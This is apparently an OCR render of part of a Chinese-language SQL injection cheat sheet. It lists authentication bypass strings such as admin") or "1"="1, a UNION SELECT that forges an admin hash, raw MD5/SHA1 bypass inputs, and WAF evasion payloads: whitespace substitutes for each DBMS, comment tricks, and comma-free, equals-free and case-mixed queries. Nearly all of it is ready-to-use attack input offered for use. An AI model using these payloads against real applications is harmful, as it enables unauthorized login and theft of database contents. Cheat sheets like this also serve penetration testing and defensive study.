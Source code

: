 	admin") or ("1"="1"/*
	admin") or "1"="1
	admin") or "1"="1"--
	admin") or "1"="1"#
	admin") or "1"="1"/*
	1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
  #### 身份验证绕过（原始 MD5 SHA1）
  	当密码为MD5加密是
	查询语句是这样的
	"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
	绕过方式
	md5("ffifdyop", true) = 'or'6�]��!r,��b�
	sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!
  #### WAF 绕过
  	无空格
	?id=1%09and%091=1%09--
	?id=1%0Dand%0D1=1%0D--
	?id=1%0Cand%0C1=1%0C--
	?id=1%0Band%0B1=1%0B--
	?id=1%0Aand%0A1=1%0A--
	?id=1%A0and%A01=1%A0--
	注释符
	?id=1/*comment*/and/**/1=1/**/--
	括号绕过
	?id=(1)and(1)=(1)--
	更多
| DBMS | ASCII characters in hexadicimal |
| ---- | ------------------------------- |
| SQLite3 | 0A, 0D, 0C, 09, 20 |
| MySQL	5 | 09, 0A, 0B, 0C, 0D, A0, 20 |
| MySQL	3	| 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20, 7F, 80, 81, 88, 8D, 8F, 90, 98, 9D, A0 |
| PostgreSQL | 0A, 0D, 0C, 09, 20 |
| Oracle 11g | 00, 0A, 0D, 0C, 09, 20 |
| MSSQL | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20 |
	无逗号
	LIMIT 0,1         -> LIMIT 1 OFFSET 0
	SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
	SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
	无等号
	?id=1 and substring(version(),1,1)like(5)
	?id=1 and substring(version(),1,1)not in(4,3)
	?id=1 and substring(version(),1,1)in(4,3)
	?id=1 and substring(version(),1,1) between 3 and 4
	大小写
	?id=1 AND 1=1#
	?id=1 AnD 1=1#
	?id=1 aNd 1=1#
	运算符
	AND   -> &&
	OR    -> ||
	=     -> LIKE,REGEXP, BETWEEN, not < and not >
	> X   -> not between 0 and X
	WHERE -> HAVING
